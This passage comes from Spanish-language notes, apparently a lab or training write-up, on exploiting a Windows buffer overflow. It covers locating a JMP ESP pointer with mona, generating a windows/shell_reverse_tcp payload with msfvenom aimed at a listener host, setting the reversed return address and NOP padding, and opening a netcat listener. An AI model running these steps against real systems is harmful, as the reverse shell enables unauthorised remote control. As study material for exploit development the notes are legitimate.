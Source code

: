 ## POINTER
Ahora tenemos que darle un punto de salto donde ejecutar, es decir, con el pointer el atacante puede dirigir la ejecución del programa hacia código malicioso, por lo que con este comando estaríamos buscando las instrucciones de "jmp esp". Por lo que ejecutamos el siguiente comando, con los badchars que nos haya aparecido anteriormente (en nuestro caso cómo mínimo es el x00 ya que este número siempre es un bad char):
```python
!mona jmp -r esp -cpb "\x00"
```

Y nos mostrara el pointer
![[Pasted image 20240710094330.png]]

Volvemos a ejecutar el binario pero clickando a la flecha apuntando a la derecha para poder añadir nuestro pointer
![[Pasted image 20240710094446.png]]

Añadimos el pointer
![[Pasted image 20240710094543.png]]

Damos el OK y nos fijamos en el siguiente campo
![[Pasted image 20240710094700.png]]


## GENERAR SHELLCODE
Ahora ya lo tenemos todo preparado para generar el shellcode, por lo que usaremos msfvenom de la siguiente forma:
```python
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.4 LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```
![[Pasted image 20240710102436.png]]

Pegamos el resultado en el payload
![[Pasted image 20240710102413.png]]

Y cambiamos las siguientes variables, donde la variable retn es el número del jmp `311712F3`  pero al revés; y el padding significa el conjunto de datos adicionales que se añaden a la estructura de datos.
```python
retn= "\xf3\x12\x17\x31"
padding = "\x90" * 16
```
![[Pasted image 20240710100031.png]]

Y el resultado del payload quedara así
![[Pasted image 20240710102344.png]]

Ahora nos ponemos en escucha con netcat
![[Pasted image 20240710100156.png]]
